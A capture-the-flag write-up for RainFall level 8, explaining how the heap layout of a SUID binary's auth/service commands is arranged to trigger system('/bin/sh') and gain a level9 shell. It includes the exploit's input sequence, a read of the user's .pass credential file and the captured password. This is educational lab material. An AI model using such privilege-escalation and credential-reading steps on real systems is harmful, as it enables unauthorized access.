 # Level 8

## Vulnerability

Idiocy

## Context

We find a binary with owner level9 and SUID.
```
level8@RainFall:~$ ls -l
-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8
```
When run accepts input on stdin and prints 2 null values.
```
level8@RainFall:~$ ./level8
(nil), (nil)
wait... what?
(nil), (nil)
```

## Solution

Investigating with gdb, we find the main reads stdin with fgets() accepting commands.

It calls system("/bin/sh") after several conditional jumps.
```
level8@RainFall:~$ gdb -q level8
...
(gdb) disas main
...
   0x080485ae <+74>:	call   0x8048440 <fgets@plt>
...
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
```
if we cat the binary we find some strings that look like commands
```
level8@RainFall:~$ cat level8
...
auth resetservicelogin/bin/shPassword:
```
Playing with these commands as input to ```level8``` we find the following:

* ```auth```    : calls ```strcpy()```, copies input following auth into global variable ```auth```.
* ```service``` : calls ```strdup()```, copies input following service into global variable ```service```.
* ```reset```   : calls ```free()```, resets global variable auth.
* ```login```   : If auth[32] is non-zero call ```system()```. Else ```fwrite()``` displays address of global variables ```auth``` and ```service```.

malloc() places each pointer successively on the heap, with some padding. In this case we see 16 bytes between pointers.

To make auth[32] non-zero we can attempt to place our ```service``` variable 32 bytes after ```auth``` on the heap.

Create the first pointer with command ```auth```, then a second calling ```service``` twice. We see ```service``` is now exactly 32 bytes after ```auth```.

So when we call login auth[32] is non-zero and we are given a new shell as user ```level9``` where we can ```cat``` the password.
```
level8@RainFall:~$ ./level8
(nil), (nil)
auth please
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
Alternatively, create the ```auth``` pointer first, then a second calling ```service``` with any string at least 16 bytes long.
```
auth I mean...
0x804a008, (nil)
service0123456789abcdef
0x804a008, 0x804a018
login
$ whoami
level9
```

## Recreate Exploited Binary

As user level9, in /tmp, create and compile level8_source.c
```
level9@RainFall:/tmp$ gcc level8_source.c -o level8_source
```
Edit permissions including suid, then move the binary to home directory.
```
level9@RainFall:/tmp$ chmod u+s level8_source; chmod +wx ~; mv level8_source ~
```
Exit back to user level8, then run the source.
```
level9@RainFall:/tmp$ exit
exit
level8@RainFall:~$ /home/user/level9/level8_source
(nil), (nil)
auth please
0x804a008, (nil)
service0123456789abcdef
0x804a008, 0x804a018
login
$ whoami
level9
```
